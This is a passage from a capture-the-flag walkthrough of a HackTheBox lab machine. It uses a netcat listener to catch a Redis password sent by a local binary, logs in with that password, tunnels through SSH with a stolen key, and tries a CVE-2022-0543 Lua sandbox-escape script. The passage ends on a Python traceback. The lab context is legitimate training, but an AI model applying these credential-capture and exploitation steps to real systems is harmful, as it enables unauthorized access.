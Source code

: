 It dies before it has a chance to send the credentials.. setup a `nc` listener on port 6379 and try again.
```bash
➜  shared ltrace ./redis_connector_dev
[... snip ...]
INFO command result:
__errno_location()                                                                               = 0x7f9d634486c0
getaddrinfo("localhost", nil, 0xc000068960, 0xc000010050)                                        = 0
freeaddrinfo(0x10523f0)                                                                          = <void>
 i/o timeout
+++ exited (status 0) +++

➜  shared nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 46690
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

With the found password we are now able to authenticate and access the redis server:
```bash
dan_smith@shared:/usr/local/bin$ redis-cli -h localhost
localhost:6379> AUTH default F2WHqJUz2WEz=Gqq
OK
```

Reading about redis on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#lua-sandbox-bypass) we find an interesting CVE to escape from LUA. Trying to run the script on the victim fails because we're lacking python3 module 'redis'.
```bash
dan_smith@shared:/dev/shm$ python3 cve-2022-0543.py 
Traceback (most recent call last):
  File "/dev/shm/cve-2022-0543.py", line 1, in <module>
    import redis
ModuleNotFoundError: No module named 'redis'
```

Instead, setup a SSH tunnel and test the script locally.
```bash
➜  shared ssh -L 6379:127.0.0.1:6379 -N -f dan_smith@shared.htb -i dan-id_rsa
➜  shared python3 cve-2022-0543.py                                        
Please input redis ip:
>>127.0.0.1
Please input redis port:
>>6379
input exec cmd:(q->exit)
>>id
Traceback (most recent call last):
  File "/htb/shared/cve-2022-0543.py", line 30, in <module>
    shell(ip,port,cmd)
  File "/htb/shared/cve-2022-0543.py", line 19, in shell
    script = r.eval(lua,0)
  File "/usr/lib/python3/dist-packages/redis/client.py", line 3131, in eval
    return self.execute_command('EVAL', script, numkeys, *keys_and_args)
  File "/usr/lib/python3/dist-packages/redis/client.py", line 901, in execute_command
    return self.parse_response(conn, command_name, **options)
  File "/usr/lib/python3/dist-packages/redis/client.py", line 915, in parse_response
    response = connection.read_response()
  File "/usr/lib/python3/dist-packages/redis/connection.py", line 739, in read_response
    response = self._parser.read_response()
```